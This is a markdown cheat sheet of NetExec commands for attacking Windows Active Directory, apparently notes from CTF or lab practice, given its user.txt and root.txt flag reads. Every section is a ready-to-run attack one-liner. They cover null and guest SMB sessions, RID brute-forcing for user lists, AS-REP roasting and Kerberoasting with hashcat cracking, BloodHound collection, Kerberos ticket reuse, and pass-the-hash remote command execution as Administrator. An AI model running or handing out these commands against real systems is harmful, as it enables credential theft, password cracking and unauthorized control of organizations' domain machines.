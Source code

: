 # nxc
#active-directory

## nxc smb spider module
```
nxc smb <ip>  -u  <user> -p '<passwd>' -M spider_plus 
```

## nxc2 for generating HOST File
```
nxc smb <ip> --generate-hosts-file hosts_file 
```

## SMB all in one
```
nxc smb <ip> -u '<user>' -p '<passwd>' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB null all in one
```
nxc smb <ip> -u '' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## SMB guest all in one
```
nxc smb <ip> -u 'a' -p '' --shares --users --pass-pol --rid-brute 10000 --log $(pwd)/smb.out; cat smb.out | grep TypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > users.txt; cat users.txt
```

## LDAP anonymous all in one
```
nxc ldap <ip> -u '' -p ''
```

## LDAP all in one
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --users --asreproast hashes.asreproast --kerberoasting hashes.kerberoast; hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
## Checking ADCS
```
nxc ldap <ip> -u '<user>' -p '<passwd>' -M adcs
```

## Get SID of Domain
```
nxc ldap -u <user> -p <passwd> -dc-ip <ip> --get-sid
```

## Check kcache tickets
```
nxc smb <ip> -k --use-kcache -u <user> -X "whoami"
```

## Generate krb5 file
```
nxc smb <ip> -u <user> -p <password> --generate-krb5-file <out_file>
```

## Execute bloodhound
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection All --dns-server <ip>
```

## Execute bloodhound w/o ObjectProps
```
nxc ldap <ip> -u '<user>' -p '<passwd>' --bloodhound --collection Group,LocalAdmin,RDP,DCOM,Container,PSRemote,Session,Acl,Trusts,LoggedOn --dns-server <ip>
```

## Cat user.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'powershell -c "Get-ChildItem -Path C:\users -Recurse -Force -Filter user.txt -ErrorAction SilentlyContinue | % { Write-Host \"Found at: $($_.FullName)\"; Get-Content $_.FullName }"'
```

## Cat root.txt with administrator hash
```
nxc smb <ip> -u Administrator -H '<hash>' -x 'type C:\Users\Administrator\Desktop\root.txt'
```
